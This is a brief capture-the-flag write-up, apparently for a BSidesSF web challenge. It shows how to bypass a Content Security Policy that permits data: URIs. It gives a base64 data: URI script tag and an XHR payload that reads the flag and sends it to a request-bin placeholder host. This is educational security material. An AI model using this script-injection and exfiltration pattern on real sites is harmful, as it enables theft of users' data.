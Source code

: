 CSP allows data: URIs.
Bypass the CSP using **data: uri**.

For example for a simple payload of **alert(1)**,
```
<script src="data:text/javascript;base64,YWxlcnQoMSk7"> </script>
```

For this challenge you need to read the flag, you can use XHR: 
```
var xhr = new XMLHttpRequest();    
xhr.open('GET', 'http://[$CHALLENGE_IP]/csp-one-flag', true);
xhr.onload = function () {
var request = new XMLHttpRequest();
request.open('GET', 'http://[$REQUEST_BIN_URI]?flag='+xhr.responseText, true);
request.send()
};
xhr.send(null);
```

Base64 encode it and use it as follows, 
```
<script src="data:text/javascript;base64,[$BASE64_OF_SCRIPT]"></script>
```

For a quick solve run, 
`python solution.py https://web-tutorial-3-d1d398dd.challenges.bsidessf.net/`
